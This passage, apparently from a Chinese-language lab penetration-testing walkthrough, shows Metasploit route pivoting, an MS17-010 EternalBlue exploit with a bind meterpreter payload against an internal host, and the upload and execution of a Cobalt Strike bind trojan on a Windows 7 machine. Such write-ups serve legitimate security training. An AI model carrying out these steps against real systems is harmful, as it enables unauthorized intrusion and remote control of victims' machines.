 ![截图](176aa087d56b0f4b3b55f6918297328a.png)

首先，在msf上设置好路由，方便后续的利用：

```shell
run post/multi/manage/autoroute //添加当前路由表
run autoroute -p //查看当前路由表
bg //保存会话
```

![截图](c011e7b724fc8c0be415e59459056c55.png)

利用模块：

```shell
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp //正向连接上线
set rhost 10.10.20.7 //设置连接目标
set rhosts 10.10.20.7 //设置扫描目标
run
```

可能会失败：（ms17-010的流量比较大）

如果蓝屏建议调大内存；

如果链接不成功，请多次尝试（我试了三次！！）

![截图](9dbadc2061586cb3ccf096e2a92183c2.png)

进一步的继续添加路由：

![截图](4b6044d23383073e52aece0f983c4522.png)

#### 3）将win7权限移交会cs

为了更好的进行后续的上线操作和渗透操作，建议使用cs。

创建一个绑定连接的监听器：

![截图](5ba07a07148021f6c40b6aeba2e174f5.png)

生成对应的木马：

![截图](05659b2002dc8cc26699f8e8a1b8e4bc.png)

把这个文件上传到win7上：

```shell
upload /home/ubuntu/bind.exe c:\\bind.exe
```

![截图](822ad3222ff19802ce27f8e5cfd6c1ae.png)

执行该木马：

```shell
shell
c:\\bind.exe
```
